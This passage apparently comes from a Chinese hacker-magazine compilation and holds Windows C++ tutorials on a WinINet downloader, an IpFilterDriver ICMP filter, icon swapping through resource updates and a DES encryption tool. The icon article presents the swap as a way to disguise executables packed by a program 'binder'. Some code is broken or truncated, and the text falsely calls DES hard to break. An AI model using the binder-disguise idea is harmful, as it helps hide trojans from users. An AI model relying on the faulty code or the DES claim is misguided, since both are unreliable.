        "Accept: */*\r\nAccept-Language: zh-cn\r\nAccept-Encoding: gzip, deflate\r\nUser-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; MyIE2; .NET CLR 1.1.4322)\r\n";
    CHAR szTemp[16384];
    HINTERNET hConnect;
    CFile file;

    if (!(hConnect = InternetOpenUrlA(hOpen, szUrl, szHead,
        lstrlenA(szHead), INTERNET_FLAG_DONT_CACHE | INTERNET_FLAG_PRAGMA_NOCACHE | INTERNET_FLAG_RELOAD, 0)))
    {
        AfxMessageBox("不能打开该URL!");
        return -1;
    }

    if (file.Open(szFileName, CFile::modeWrite | CFile::modeCreate) == FALSE)
    {
        AfxMessageBox("不能打开本地的文件!");
        return -1;
    }

    DWORD dwByteToRead = 0;
    DWORD dwSizeOfRq = 4;
    DWORD dwBytes = 0;
    if (!HttpQueryInfo(hConnect, HTTP_QUERY_CONTENT_LENGTH | HTTP_QUERY_FLAG_NUMBER,
        (LPVOID)&dwByteToRead, &dwSizeOfRq, NULL))
    {
        dwByteToRead = 0;
    }

    DWORD start;    // 记录时间
    DWORD end;
    DWORD time;
    int nPos;
    CString tempstring;

    time = 10;
    start = timeGetTime();
    do
    {
        if (!InternetReadFile(hConnect, szTemp, 16384, &dwSize))
        {
            AfxMessageBox("读文件出错");
            file.Close();
            return -1;
        }

        if (dwSize == 0)
            break;
        else
            file.Write(szTemp, dwSize);

        dwBytes += dwSize;
        if (dwByteToRead)
        {
            tempstring.Format("%d%%", (dwBytes * 100) / dwByteToRead);
            nPos = (dwBytes * 100) / dwByteToRead;
            // SetDlgItemText(IDC_PERCENT_TEXT, tempstring);
        }

        float fSpeed = 0;     // 计算速度
        fSpeed = (float)dwBytes;
        fSpeed /= (float)((float)time / (float)1000);
        fSpeed /= (float)1024;

        TRACE(tempstring);
        // 下面代码我将作出解释，请看下文
        SHOWINFO* pShowInfo = new SHOWINFO;
        pShowInfo->strSpeed.Format("%4.1f KB/秒", fSpeed);
        pShowInfo->nPos = nPos;
        ::PostMessage(hWnd, MSG_PROGRESS, 0, (LPARAM)pShowInfo);

        end = timeGetTime();
        time = end - start;
        if (time == 0)
            time = 10;

    } while (TRUE);

    file.Close();

    InternetCloseHandle(hOpen);    // 关闭句柄
    return 0;
}
```

这个函数的后半段代码我解释一下。SHOWINFO 是一个自定义的结构体，用其把当前速度和进度传递给界面进度条，定义如下。

```cpp
struct SHOWINFO
{
    CString strSpeed;
    int nPos;
};
```

传递信息给界面的方式是用 PostMessage。在这里，它的第 2 个参数就用 SHOWINFO 的对象了，注意使用时要强制转换为 LPARAM。MSG_PROGRESS 是个自定义消息，它的响应函数为 OnStep，在其中处理进度条的显示。实现代码如下。

```cpp
LRESULT CDownloadProgressDlg::OnStep(WPARAM wParam, LPARAM lParam)
{
    CString strSpeed = ((SHOWINFO*)lParam)->strSpeed;
    int nPos = ((SHOWINFO*)lParam)->nPos;
    delete (SHOWINFO*)lParam;
    CString strPercent;
    strPercent.Format("%d%%", nPos);
    SetDlgItemText(IDC_SPEED_TEXT, strSpeed);
    SetDlgItemText(IDC_PERCENT_TEXT, strPercent);
    m_progress.SetPos(nPos);
    if (nPos == 100)
    {
        GetDlgItem(IDC_DOWNLOAD)->EnableWindow(TRUE);
        GetDlgItem(IDOK)->EnableWindow(TRUE);
        MessageBox("文件下载完成！", "OK", MB_ICONINFORMATION);
    }
    return TRUE;
}
```

函数 InternetGetFile 在单独的线程中调用，其新线程的动作在“下载”按钮点击事件中进行，代码如下。

```cpp
void CDownloadProgressDlg::OnDownload()
{
    // TODO: Add your control notification handler code here
    CString url, filename;
    GetDlgItemText(IDC_FILE_URL, url);
    GetDlgItemText(IDC_LOCAL_DIRECTORY, filename);
    if (url.IsEmpty())
    {
        AfxMessageBox("请输入Internet文件的URL!");
        return;
    }

    if (filename.IsEmpty())
    {
        AfxMessageBox("请输入需要保存的文件路径!");
        return;
    }

    // 下面代码我将解释一下，见下文
    DOWNINFO* pDownInfo = new DOWNINFO;
    pDownInfo->hWnd = m_hWnd;
    pDownInfo->url = url;
    pDownInfo->filename = filename;
    // GetDlgItem(IDC_DOWNLOAD)->EnableWindow(FALSE);
    // GetDlgItem(IDOK)->EnableWindow(FALSE);
    AfxBeginThread(DownProc, (LPVOID)pDownInfo);
}
```

上面函数中的 DOWNINFO 也是一个自定义结构体，用以向新线程传递句柄、URL 和文件名，定义如下。

```cpp
struct DOWNINFO
{
    HWND hWnd;
    CString url;
    CString filename;
};
```

DownProc 是个回调函数，它的函数结构和参数表系统已经为我们定义好。函数内容如下。

```cpp
UINT CDownloadProgressDlg::DownProc(LPVOID pDownInfo)
{
    HWND hWnd = ((DOWNINFO*)pDownInfo)->hWnd;
    CString url, filename;
    url = ((DOWNINFO*)pDownInfo)->url;
    filename = ((DOWNINFO*)pDownInfo)->filename;
    if (InternetGetFile(hWnd, url, filename) == 0)
    {
        // AfxMessageBox("下载成功!");
        // g_nAbor*=TRUE;
        return 1;
    }
    else
    {
        AfxMessageBox("下载失败!");
        return 0;
    }
}
```

回顾本例程，我们的代码并没有用到计时器去显示进度，而是每下载一定字节数就向窗口发送自定义消息来让进度条显示进度，所以做到了实时性和准确性。文中代码在 VC6.0 + Windows XP 中调试通过，如有不妥之处，欢迎大家批评指正。

[本文涉及的代码（程序），请见随书光盘]

### 使用过滤驱动打造防火墙

文／图 夜枫

学习过滤驱动的时候，在网上搜索相关资料，偶然间发现了一个防火墙驱动，觉得很有意思，就研究了一下。这个驱动实际上并不是直接挂钩在 \Device\Tcp 上，而是通过一个叫 \Device\IpFilterDriver 的驱动来间接实现过滤的，十分简单。而实际防火墙软件大多不是采用此方法，而是采用 NDIS 中间层驱动的方法，但是 NDIS 的方法比较复杂。

#### 准备工作

我测试这个驱动的时候，使用网上的代码直接可以运行，但是自己写的驱动调试运行的时候就无法获得到 \Device\IpFilterDriver 指针，开始百思不得其解，后来才知道需要启动一个服务，所以如果你也遇到类似情况的话，只需在控制台中执行“net start ipfilterdriver”就可以了。或者修改注册表 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\IpFilterDriver] 的 Start 为 1，然后重新启动就可以实现开机自动启动了。

#### 原理说明

这个驱动的原理比起 NDIS 中间层驱动要简单很多。首先获得 IpFilterDriver 的设备对象指针，使用 IoGetDeviceObjectPointer 就可以获得。我们在 DDK 的“帮助”里查看一下这个函数。

```cpp
NTSTATUS IoGetDeviceObjectPointer(
  IN PUNICODE_STRING ObjectName,
  IN ACCESS_MASK DesiredAccess,
  OUT PFILE_OBJECT *FileObject,
  OUT PDEVICE_OBJECT *DeviceObject
);
```

这个函数第 1 个参数是对象的名字，这里自然就是 \Device\IpFilterDriver 了；第 2 个是访问权限，我们设置为 STANDARD_RIGHTS_ALL；第 3 个和第 4 个要注意 OUT 是表示输出的，所以我们用两个变量去接收它。

最后一个就是设备对象了，一般做过滤驱动的时候都会调用 IoAttachDeviceByPointer 之类的函数来实现。不过我们这里不需要，只要给这个设备对象发送一个 IRP 来设置一个回调函数就可以了。创建 IRP 的函数是 IoBuildDeviceIoControlRequest，我们创建一个 DeviceIoControl 的 IRP（这里提一下，其他 IRP 不是这么创建的），另外有函数，发送一个 IOCTL 到该设备对象，IOCTL 为 IOCTL_PF_SET_EXTENSION_POINTER，输入缓冲区为一个结构体的地址，结构体是 PF_SET_EXTENSION_HOOK_INFO。

```cpp
typedef struct PF_SET_EXTENSION_HOOK_INFO {
  PacketFilterExtensionPtr ExtensionPointer;
} PF_SET_EXTENSION_HOOK_INFO, *PPF_SET_EXTENSION_HOOK_INFO;
```

它只有一项，是一个函数指针。我们来看看这个函数。

```cpp
typedef PF_FORWARD_ACTION (*PacketFilterExtensionPtr)(
  IN unsigned char *PacketHeader,
  IN unsigned char *Packet,
  IN unsigned int PacketLength,
  IN unsigned int RecvInterfaceIndex,
  IN unsigned int SendInterfaceIndex,
  IN IPAddr RecvLinkNextHop,
  IN IPAddr SendLinkNextHop
);
```

这个函数实际上就是我们的过滤函数。当我们设置了过滤函数后，用 IoCallDriver 发送这个 IRP，当 IRP 返回 STATUS_SUCCESS 时表示成功，当有网络传输时就会调用我们设置好的回调函数。我们再看看其完整代码。

```cpp
NTSTATUS SetFilterFunction(PacketFilterExtensionPtr FilterFunction)
{
    NTSTATUS ntStatus = STATUS_SUCCESS;
    waitStatus = STATUS_SUCCESS;
    UNICODE_STRING FilterDeviceName;
    ...
    PDEVICE_OBJECT ipDeviceObject = NULL;
    PFILE_OBJECT ipFileObject = NULL;
    PF_SET_EXTENSION_HOOK_INFO filterData;
    KEVENT Event;
    IO_STATUS_BLOCK ioStatus;
    PIRP irp;

    RtlInitUnicodeString(&FilterDeviceName, DD_IPFLTRDRVR_DEVICE_NAME);
    ntStatus = IoGetDeviceObjectPointer(&FilterDeviceName, STANDARD_RIGHTS_ALL, &ipFileObject, &ipDeviceObject);
    ...
    filterData.ExtensionPointer = FilterFunction;
    KeInitializeEvent(&Event, NotificationEvent, FALSE);
    irp = IoBuildDeviceIoControlRequest(
        IOCTL_PF_SET_EXTENSION_POINTER,
        ipDeviceObject,
        (PVOID)&filterData,
        sizeof(PF_SET_EXTENSION_HOOK_INFO),
        NULL,
        0,
        FALSE,
        &Event,
        &ioStatus);
    ...
    ntStatus = IoCallDriver(ipDeviceObject, irp);
    if (ntStatus == STATUS_PENDING) {
        waitStatus = KeWaitForSingleObject(&Event, Executive, KernelMode, FALSE, NULL);
    }
    ...
    if (ipFileObject != NULL)
        ObDereferenceObject(ipFileObject);
    ipFileObject = NULL;
    ipDeviceObject = NULL;
    return ntStatus;
}
```

这个代码我稍微精简了一下，更简单明了一些。我们再看一下回调函数。

```cpp
PF_FORWARD_ACTION PacketFilterExtensionProc(
    IN unsigned char *PacketHeader,
    IN unsigned char *Packet,
    IN unsigned int PacketLength,
    IN unsigned int RecvInterfaceIndex,
    IN unsigned int SendInterfaceIndex,
    IN IPAddr RecvLinkNextHop,
    IN IPAddr SendLinkNextHop)
{
    IPHeader* Ip_Header = (IPHeader*)PacketHeader;
    char src_ip[50] = {0};
    char dst_ip[50] = {0};

    if (Ip_Header->iph_protocol == IPPROTO_ICMP)
    {
        if (INVALID_PF_IF_INDEX == RecvInterfaceIndex)
        {
            inet_ntoa_krnl(Ip_Header->iph_src, src_ip);
            inet_ntoa_krnl(Ip_Header->iph_dest, dst_ip);
            KdPrint(("发送|发送:%s\t接收:%s\n", src_ip, dst_ip));
        }
        else
        {
            inet_ntoa_krnl(Ip_Header->iph_src, src_ip);
            inet_ntoa_krnl(Ip_Header->iph_dest, dst_ip);
            KdPrint(("接收|发送:%s\t接收:%s\n", src_ip, dst_ip));
        }
    }
    return PF_FORWARD;
}
```

这个方法只能过滤 IP 协议层以上的协议，而 ARP、RARP 之类的协议是过滤不到的，这需要用 NDIS 驱动。这里的 PacketHeader 实际上就是一个 IP 头部，IP 头部的定义网上到处都是，我们来看看。

```cpp
typedef struct IPHeader {
    UCHAR  iph_verlen;
    UCHAR  iph_tos;
    USHORT iph_length;
    USHORT iph_id;
    USHORT iph_offset;
    UCHAR  iph_ttl;
    UCHAR  iph_protocol;
    USHORT iph_xsum;
    ULONG  iph_src;
    ULONG  iph_dest;
} IPHeader;
```

其中的 iph_protocol 就是协议，比如 TCP/UDP/ICMP 之类的，这里我做的是 ICMP 过滤，先判断协议，然后通过判断接收接口索引是否有效（如果是接收数据自然就有效，如果是发数据自然就无效）来判断是接还是发，并打印出目的地址和源地址。这里的地址和 Winsock 编程一样是处理过的，把 IP 地址的 4 个部分转换成十六进制，然后按高低位写在一起。Winsock 库里有个函数叫 inet_ntoa，可以把这个转换成 IP，但这里是内核，没有这个函数只好自己写一个，还好不难。

```cpp
void inet_ntoa_krnl(unsigned long addr, char* out)
{
    long tmp = 0;
    long a[4] = {0};
    memset(out, 0, 50);
    tmp = addr;
    tmp = tmp >> 8 << 8;
    tmp = ~tmp;
    tmp = tmp & addr;
    a[0] = tmp;
    ...
    tmp = addr;
    tmp = tmp >> 24 << 16;
}
```

```c
tmp = ~tmp;
tmp = tmp << 8;
tmp = (tmp & addr) >> 16;
a[2] = tmp;
tmp = addr;
tmp = tmp >> 32 << 24;
tmp = ~tmp;
tmp = tmp << 8;
tmp = (tmp & addr) >> 24;
a[3] = tmp;
sprintf(out, "%d,%d,%d,%d", a[0], a[1], a[2], a[3]);
}
```

这段代码就是来回移位，把数据分离出来。另外值得一提的是，过滤函数返回值有3种，分别是 PF_FORWARD、PF_DROP 和 PF_PASS。第1个是继续传递；第2个是丢弃，也就是不继续传递，自然就阻止了。

说了半天可能大家还是云里雾里，不过没关系，结合我的介绍看看代码就能明白了。如果不明白，欢迎大家到黑防论坛发帖子，黑防有很多高手也会给大家解答的。

下面我们还是来看看效果吧。设置为 PF_FORWARD 时，我们编译并调试运行，结果如图1所示。这里我们可以看到一个发送紧跟一个接收，证明我们发送和接收都是判断对了的，并且都是有效的。如果我们采用 PF_DROP，那么效果又会如何呢？结果如图2所示，可以看到发送被阻止了，如果我们在接收时候采用 PF_DROP，那么也会被阻止掉。这样就实现了一个初级的防火墙功能，是不是很简单又很奇妙呢？


图1


图2

当时我完全搞懂这个代码时，第一个想到的就是 ARP 防火墙，但是刚才我说到了这个回调函数的 PacketHeader 是一个 IP 头部，而如果你看过 TCP/IP 协议的树形结构就会知道 ARP 和 IP 是平级的，换句话说这个方法是不能实现 ARP 防火墙的。抱着研究学习的目的，我在网上搜集了相关信息，后来得知要实现 ARP 防火墙需要写一个 NDIS 中间层驱动，而这个驱动相对来说比较复杂，代码也很多，有兴趣的读者可以到网上搜集相关的信息。

> 【本文涉及的代码（程序），请见随书光盘】

### 图标大挪移

#### 资源更新法更新程序图标


文/图：楚名

熟悉 PE 文件格式的朋友都知道，PE 文件的 section 里一般都有 .rsrc 资源节，里面存放了光标、图标、位图、菜单和对话框等多种资源，如图1所示。下面我们将要提到的资源更新法就是枚举程序甲的图标资源，然后用这些图标数据更新程序乙的图标资源，从而为程序乙替换图标。


图1

这里主要用到 BeginUpdateResource、UpdateResource 和 EndUpdateResource 这3个 API 函数来做资源更新和替换。为了节省篇幅就不做太多介绍了，具体内容大家可以参阅光盘中的详细代码。另外值得注意的是，这几个函数只能在 Windows NT 和 Windows 2000 以上系统使用，而被压缩或加密过的程序也是不可以提取和替换资源的。下面我就讲讲这3个函数的基本用法。

文中所提到的资源更新法的核心。本文所说的资源更新法也可以用来做捆绑器，相比徐景周的捆绑器原理，资源更新法实现的捆绑器可以将捆绑的程序再压缩。好像我有点扯远了，回归主题，资源更新法的基本用法就是调用 BeginUpdateResource 获得要修改的资源句柄，再调用 UpdateResource 替换可执行文件中的 Resource，完成后调用 EndUpdateResource 将改动写入可执行文件中。我将这个过程封装在一个函数 SetRes 里，其代码如下：

```cpp
/****************************************
 * 函数: SetRes
 * 参数: LPSTR szImageName  --- 要资源更新的程序名字
 *      LPSTR szResType    --- 更新的资源类型
 *      LPSTR szResName    --- 更新的资源名称
 *      LPVOID pData       --- 可执行文件的资源数据的指针
 *      DWORD cbData       --- 指定lpData中的资源数据大小
 * 功能: 该函数用来更新exe中的资源
 ****************************************/
int SetRes(LPSTR szImageName, LPSTR szResType, LPSTR szResName, LPVOID pData, DWORD cbData)
{
    HANDLE hExe = BeginUpdateResource(szImageName, 0);
    if(hExe == NULL) throw("BeginUpdateResource");
    int res = UpdateResource(
        hExe,
        szResType,
        szResName,
        MAKELANGID(LANG_NEUTRAL, SUBLANG_NEUTRAL),
        pData,
        cbData);
    if(!res) throw("UpdateResource");
    if(!EndUpdateResource(hExe, 0)) throw("EndUpdateResource");
    return 1;
}
```

这里我采用了参数追溯的方式来叙述。上面不能确定的参数有两个：szResName 和 pData。先来看看如何获得可执行文件的资源数据指针。其实这也是很简单的，不知道大家有没有看过《黑客防线》杂志2006年第7期的《下载者配置器我来写》这篇文章，文中提到了与资源操作相关的 FindResource、SizeofResource 和 LoadResource 这3个 API 函数，这里同样也是利用这3个函数来实现的。为了增加通用性和可移植性，我也把这一过程写成了函数 EnumIconProc，其具体代码如下：

```cpp
/****************************************
 * 函数: EnumIconProc
 * 参数: HMODULE hModule  --- module句柄
 *      LPCTSTR lpszType  --- 资源类型
 *      LPTSTR lpszName   --- 资源名称
 *      LONG lParam       --- 请求定义好的参数
 * 功能: 该函数枚举源exe中的所有图标，设置到另一个exe中去
 ****************************************/
BOOL CALLBACK EnumIconProc(HMODULE hModule,
    LPCTSTR lpszType, LPTSTR lpszName, LONG lParam)
{
    HRSRC hRes = FindResource(hModule, lpszName, RT_ICON);
    if (hRes == NULL) throw("Could not locate icon resource.");
    HGLOBAL hResLoad = LoadResource(hModule, hRes);
    if (hResLoad == NULL) throw("Could not load icon.");
    LPVOID pData = LockResource(hResLoad);
    if (pData == NULL) throw("Could not lock Icon.");
    DWORD cbData = SizeofResource(hModule, hRes);
    if (lParam)
    {
        SetRes((LPSTR)lParam, RT_ICON, lpszName, pData, cbData);
    }
    return TRUE;
}
```

同样，上面需要确定的就是参数中的资源名称，这个参数恰好也是我们在 SetRes 函数中需要确定的参数。我们用 EnumResourceNames 函数来搜寻程序模块中的 RT_ICON 资源类型，将查找到的资源名称传递给回调函数 EnumIconProc 就可以了。其代码如下：

```cpp
/****************************************
 * 函数: SetExIcon
 * 参数: LPSTR szLoadFrom --- 图标提取文件
 *      LPSTR szSetTo     --- 待更新图标文件
 * 功能: 该函数把一个exe中的图标转入到另一个exe中去
 ****************************************/
int SetExIcon(LPSTR szLoadFrom, LPSTR szSetTo)
{
    HMODULE hExe = LoadLibrary(szLoadFrom);
    if (hExe == NULL) throw("Could not load icon exe.");
    EnumResourceNames(
        hExe,
        RT_ICON,
        (ENUMRESNAMEPROC)EnumIconProc,
        (LONG)szSetTo
    );
    FreeLibrary(hExe);
    return 1;
}
```

看到这里大家会发现，要集成图标替换功能只要使用我最后给出的函数 SetExIcon 就可以了，简单吧？最后简单地叙述一下资源更新法实现捆绑器的原理。大家只需先写一个 bind 程序，该程序实现释放资源和运行程序的功能，并且该程序中有可以被替换的资源。而捆绑器就是先将 bind 程序释放出来，然后将待捆绑的程序更新到这个 bind 程序中。看到什么希望了吗？本文的换图标功能在这里就可以大显身手了。

【本文涉及的代码（程序），请见随书光盘】

## DES加密软件源码实现


文/图：Adly

DES 属于对称加密中的分组密码。所谓对称加密，最主要的特点就是它的加密密钥和解密密钥相同，其分组长度为64比特，密钥长度为56比特（为了方便，还有一些其他原因，我们使用的都是64比特）。美国国家标准局（NIST）推荐在商业中使用 DES，而不用 DES 来保护官方机密；1999 年 NIST 颁布了标准（FIPS PUB 46-3）的新版本，新版本规定了 DES 只能使用于（历史）遗留系统以及 3DES 的使用情况。因为 DES 和 3DES 的加密、解密算法是相同的，所以理解 DES 的算法仍然有很重要的意义。现在的实际应用中，DES 实际上也是很难破解的，所以，我们编写的 DES 加密软件是有很大实用价值的。


图1

### DES算法实现流程

总的来讲，DES 是经过16轮的子密钥产生、密钥置换A、循环左移位、密钥置换B、查 S 盒等一系列操作后得到的结果，结果为64比特（8字节），如图1所示。具体的实现，我在代码实现时详细讲解（注：代码文件夹中的“DES加密解密的实现.doc”文件为 DES 的相关说明以及它的具体实现步骤与图解。想要真正了解 DES 的朋友可以作为参考）。

字符串（实际使用8个字符）；bEncode 指定是加密还是解密，如果是 TRUE，则加密；如果是 FALSE，则解密。为了让大家都能尽量多地理解 DES 的加密机制，本文会尽可能讲得通俗一些，下面我们仍然从接口函数开始讲解（具体代码实现文件为 DESCoreFunction.cpp）。

### DES加密解密核心代码的实现

程序最终的调用接口的实现代码为（DESCoreFunction.h 文件）：

```cpp
void DES(char *Input, char *Key, BOOL bEncode);
// Usage:
// DES(input, Key, TRUE);   // Encode DES
// DES(input, Key, FALSE);  // Decode DES
```

程序的调用接口名为“DES”，有3个参数。Input 为明文字符串，输入的待加密的字符串（实际加密8个字符）；Key 为加密密钥，输入的加密密钥字符串（实际使用8个字符）；bEncode 指定是加密还是解密。

```cpp
void DES(char *Input, char *Key, BOOL bEncode)
{
    int Count;
    // Init Data
    memset(KeyTable1, '\0', 8*7);
    memset(SubKey, '\0', 16*8*6);
    memset(AsciiTable1, '\0', 8*8);
    memset(AsciiTable2, '\0', 8*6);
    memset(XBoxOutValue, '\0', 8);
    memset(PTable, '\0', 8*4);
    memset(RBuffer, '\0', sizeof(RBuffer));
    memset(LBuffer, '\0', sizeof(LBuffer));
    memset(ReverseIPTable, '\0', sizeof(ReverseIPTable));
    // Start!!!
    CreateKeyTable(Key); // Create Key Table
    CreateAsciiTable(Input); // Create User ASCII Table
    // Create SubKey Array
    CreateSubKey();
    if (bEncode) // Encode
    {
        for (Count = 1; Count < 17; Count++) // 16 times
        {
            Extend(); // E: Extend 32 bit to 48 bit
            ER0XorK(AsciiTable2, SubKey[Count-1]);
            // User ASCII Table ^ Key Table 2
            LookUpSBox(); // lookup S Box
            CreatePTable(); // Create P Table
        }
    }
    else // Decode
    {
        for (Count = 16; Count > 0; Count--) // 16 times
        {
            Extend(); // E: Extend 32 bit to 48 bit
            ER0XorK(AsciiTable2, SubKey[Count-1]);
            // User ASCII Table ^ Key Table 2
            LookUpSBox(); // lookup S Box
            CreatePTable(); // Create P Table
        }
    }
    // Change L & R (Last Change!!!)
    L = RBuffer;
    R = LBuffer;
    // Reverse IP Table
    ReverseIP();
    PutResultToInput(Input);
}
```

这段代码也是 DES 的核心代码所在！加密与解密实质上是相同的，只是给的 SubKey（子密钥）顺序不同而已。这是对称加密的一个特点，其加密与解密为相同或相似操作，容易进行硬件实现。`Extend()` 将 32 比特扩展到 48 比特；`ER0XorK(AsciiTable2, SubKey[Count-1])` 将数据与子密钥分组做异或；`LookUpSBox()` 在 S 盒中查询；`CreatePTable()` 生成 P 表。

首先进行一些初始化工作，以保证后续变量可控。利用 `CreateKeyTable(Key)` 创建 Key 表，将 64 比特变为 56 比特；再用 `CreateAsciiTable(Input)` 创建 ASCII 表；调用 `CreateSubKey()` 生成16轮循环所需子 Key 信息并保存到 `static char SubKey[16][8][6]`。以上工作为后续16轮循环做准备。

```cpp
if (bEncode) // Encode
{
    for (Count = 1; Count < 17; Count++) // 16 times
    {
        Extend(); // E: Extend 32 bit to 48 bit
        ER0XorK(AsciiTable2, SubKey[Count-1]);
        // User ASCII Table ^ Key Table 2
        LookUpSBox(); // lookup S Box
        CreatePTable(); // Create P Table
    }
}
```

| DES 的 S 盒 | 说明 |
|---|---|
| S1..S? | 0..15 列的查表数据（图示） |

图2

`CreatePTable()` 的作用是创建 P 表，由 S 盒查询结果与 ASCII 表的一半运算得到。16 轮运算完成后，交换左右结果并执行逆 IP 置换，即可将结果写回 Input 数组。`ReverseIP()` 即执行逆 IP 置换函数。随后文中继续讲解各函数实现，如 `void CreateKeyTable(char *Key)`：输入64比特密钥并按表格变换，完成子密钥产生过程。

## DES核心处理流程

代码中形如 `KeyTable1[0][0] = (Key[7] & 0x80)>>7;`，即是从 Key 中第 7 个字节的字符中取出第 1 位（`0x80=1000 0000`），再右移 7 位，将其结果放入 `KeyTable1` 数组中。这实际上实现的效果就是取第 57 位，放入 `KeyTable1` 数组中的第 1 位（如图 3 中的第 1 个数 57）。依此类推，即可实现图 3 中的所有变换操作。

| 57 | 49 | 41 | 33 | 25 | 17 | 9 | 8 |
|---|---|---|---|---|---|---|---|
| 1 | 58 | 50 | 42 | 34 | 26 | 18 | 16 |
| 10 | 2 | 59 | 51 | 43 | 35 | 27 | 24 |
| 19 | 11 | 3 | 60 | 52 | 44 | 36 | 32 |
| 63 | 55 | 47 | 39 | 31 | 23 | 15 | 40 |
| 7 | 62 | 54 | 46 | 38 | 30 | 22 | 48 |
| 14 | 6 | 61 | 53 | 45 | 37 | 29 | 56 |
| 21 | 13 | 5 | 28 | 20 | 12 | 4 | 64 |

图 3

`CreateSubKey()` 函数是产生每次加密解密时所需要的 16 轮子密钥。

```cpp
int TimesArray[16] = {1,1,2,2,2,2,2,2,1,2,2,2,2,2,2,1};
for(All = 0; All < 16; All++) {
  // Output SubKey Value and fill it
  char FirstChar;
  int i;
  char *pKeyTable1;
  Times = TimesArray[All];
  while(Times--) {
    pKeyTable1 = (char*)KeyTable1;
    FirstChar = *pKeyTable1;
    for(i = 0; i < 27; i++) {
      *pKeyTable1 = *(pKeyTable1 + 1);
      pKeyTable1++;
    }
    KeyTable1[3][6] = FirstChar;
    ...
    KeyTable1[7][6] = FirstChar;
  }
  pKeyTable1 = (char*)KeyTable1;
  // fill SubKey space
}
```

该函数主要实现左移操作和密钥置换 B。左移操作时，16 轮移位操作是不同的；根据 `TimesArray[16]` 数组确定移位次数。密钥置换 B 操作时，根据图 4 中的数据对密钥进行置换。

`pKeyTable1 + DEC(14)`；`DEC` 是宏函数，作用是简单地进行减 1 操作。定义宏可避免在置换时频繁手动减 1 导致混乱，只需依据图 4 置换表中的数据即可。

| 14 | 17 | 11 | 24 | 1 | 5 | 3 | 28 |
|---|---|---|---|---|---|---|---|
| 15 | 6 | 21 | 10 | 23 | 19 | 12 | 4 |
| 26 | 8 | 16 | 7 | 27 | 20 | 13 | 2 |
| 41 | 52 | 31 | 37 | 47 | 55 | 30 | 40 |
| 51 | 45 | 33 | 48 | 44 | 49 | 39 | 56 |
| 34 | 53 | 46 | 42 | 50 | 36 | 29 | 32 |

图 4

我们利用 `pKeyTable1` 加上它的偏移（如第 1 个数据中的 `DEC(14)`），就可以取其中内容再赋给 `SubKey` 数组。其他操作类同。

`CreateAsciiTable(char *Input)` 函数是对用户输入的 64 比特明文数据进行置换操作。置换表格如图 5(a) 所示，方法与前面类似，即先得到相应位，再移到最低位。

| (a) 初始置换表 |  |  |  |  |  |  |  | (b) 逆初始置换 |
|---|---|---|---|---|---|---|---|---|
| 58 | 50 | 42 | 34 | 26 | 18 | 10 | 2 | 40 ... |
| 60 | 52 | 44 | 36 | 28 | 20 | 12 | 4 | 39 ... |
| 62 | 54 | 46 | 38 | 30 | 22 | 14 | 6 | 38 ... |
| 64 | 56 | 48 | 40 | 32 | 24 | 16 | 8 | 37 ... |
| 57 | 49 | 41 | 33 | 25 | 17 | 9 | 1 | 36 ... |
| 59 | 51 | 43 | 35 | 27 | 19 | 11 | 3 | 35 ... |
| 61 | 53 | 45 | 37 | 29 | 21 | 13 | 5 | 34 ... |
| 63 | 55 | 47 | 39 | 31 | 23 | 15 | 7 | 33 ... |

图 5

```cpp
L = LBuffer; // Result of left 32 bit
R = RBuffer; // Result of right 32 bit
```

`Extend()` 函数的主要作用是对用户输入的明文信息经过置换移位后，再将其中一半（32 比特）扩展到 48 比特，扩展变换表如图 6 所示。

| 32 | 1 | 2 | 3 | 4 | 5 |
|---|---|---|---|---|---|
| 4 | 5 | 6 | 7 | 8 | 9 |
| 8 | 9 | 10 | 11 | 12 | 13 |
| 12 | 13 | 14 | 15 | 16 | 17 |
| 16 | 17 | 18 | 19 | 20 | 21 |
| 20 | 21 | 22 | 23 | 24 | 25 |
| 24 | 25 | 26 | 27 | 28 | 29 |
| 28 | 29 | 30 | 31 | 32 | 1 |

图 6 扩展变换表

`EROXor(char ERO[8][6], char K[8][6])` 函数用于对传入的两个数组中的前 48 比特进行异或运算。`LookUpSBox()` 函数也比较简单，就是对 `AsciiTable2` 数组中的值进行 S 盒查询。

```cpp
for( i = 0; i < 8; i ++ )
{
    XBoxOutValue[i] = SBox[ i ][ AsciiTable2[i][0]<<1 |
    AsciiTable2[i][5] | AsciiTable2[i][1]<<3 | AsciiTable2[i][2]<<2 |
    AsciiTable2[i][3]<<1 | AsciiTable2[i][4] ];
}
```

它的特点是输入 6 比特，输出 4 比特。在输入的 6 比特中，取第 0 位与第 5 位合起来作为行索引，中间的 4 比特作为列索引，得到 S 盒结果。

`CreatePTable()` 函数主要是执行 P 置换，然后再与 `AsciiTable1` 进行异或操作。P 置换表格如图 7 所示。

```cpp
void ReverseP()
```

用于执行逆初始置换的操作，表格如图 5(b) 所示。

| 16 | 7 | 20 | 21 | 29 | 12 | 28 | 17 |
|---|---|---|---|---|---|---|---|
| 1 | 15 | 23 | 26 | 5 | 18 | 31 | 10 |
| 2 | 8 | 24 | 14 | 32 | 27 | 3 | 9 |
| 19 | 13 | 30 | 6 | 22 | 11 | 4 | 25 |

图 7

执行了上面的这些函数后，我们就可以得到 DES 的结果了，之后是要把结果回送到 `Input` 数组中。

```cpp
void PutResultToInput( char *Input )
{
    int i, j;
    memset( Input, '\0', 8 );
    for( i = 0; i < 4; i ++ )
    {
        for( j = 0; j < 8; j ++ )
        {
            Input[i] <<= 1;
            Input[i] |= *(L + i*8 + j);
        }
    }

    for( i = 0; i < 4; i ++ )
    {
        for( j = 0; j < 8; j ++ )
        {
            Input[i+4] <<= 1;
            Input[i+4] |= *(R + i*8 + j);
        }
    }
}
```

这样，整个 DES 就实现了。接下来我们要对文件进行加密处理以及界面的设计了。

## DES的界面与文件加密的实现

程序界面如图 8 所示，设计了数据的 DES 加密和文件的 DES 加密。作为实际使用的例子，下面我只详细讲解对文件的加密操作。如果想了解程序的全部功能，请参考程序源码。


图 8

首先在“加/解密文件”右边的“浏览...”按钮中写入如下代码：

```cpp
void CDESEncoderDlg::OnViewFile()
{
    int Pos;
    SelectFile("ALL Files(*.*)\0*.*\0", "选择要加/解密的文件", OFN_PATHMUSTEXIST | OFN_FILEMUSTEXIST | OFN_HIDEREADONLY, 1);
    Pos = m_File.ReverseFind('\\');
    if( Pos == -1 ) Pos = 0;
    else Pos ++;
    m_Saveas = m_File.Left( Pos ) + "Encode_" + m_File.Right( m_File.GetLength() - Pos );
    CDESEncoderDlg::UpdateData( FALSE );
    if( (::GetFileAttributes( m_Saveas.GetBuffer( m_Saveas.GetLength() ) ) != -1 ) )
    {
